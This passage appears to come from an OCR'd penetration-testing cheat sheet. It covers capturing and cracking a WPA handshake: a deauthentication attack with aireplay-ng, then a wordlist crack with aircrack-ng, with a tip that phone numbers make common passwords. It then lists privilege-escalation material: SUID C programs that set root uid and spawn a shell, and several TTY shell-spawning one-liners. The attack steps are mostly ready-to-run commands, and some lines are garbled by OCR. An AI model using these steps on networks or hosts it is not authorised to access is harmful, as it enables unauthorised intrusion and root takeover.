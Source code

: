     #we are waiting to capture the handshake, it will written in the header
    #we can make it faster by DEAUTH which means kicking a connected user and while he re-auth we will capture the handshake
    #in a new terminal:
    aireplay-ng -0 1 -a MAC_OF_THE_NETWORK -c MAC_OF_THE_STATION_CONNECTED wlan0mon
    ls capture*
    aircrack-ng -w wordlist.txt -b MAC_OF_THE_NETWORK CAPTUREFILE #could be done also with hashcat
    #phone numbers are very common as a password

    ```

# **Shells & Reverse Shells**

## **SUID C Shells**

- bin/bash:

```
int main(void){

setresuid(0, 0, 0);

system("/bin/bash");

}
```

- bin/sh:

```
int main(void){

setresuid(0, 0, 0);

system("/bin/sh");

}
```

### **TTY Shell:**

```bash
python -c 'import pty;pty.spawn("/bin/bash")' #Python TTY Shell Trick
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh –i #Spawn Interactive sh shell
```

```bash
execute('/bin/sh')
```
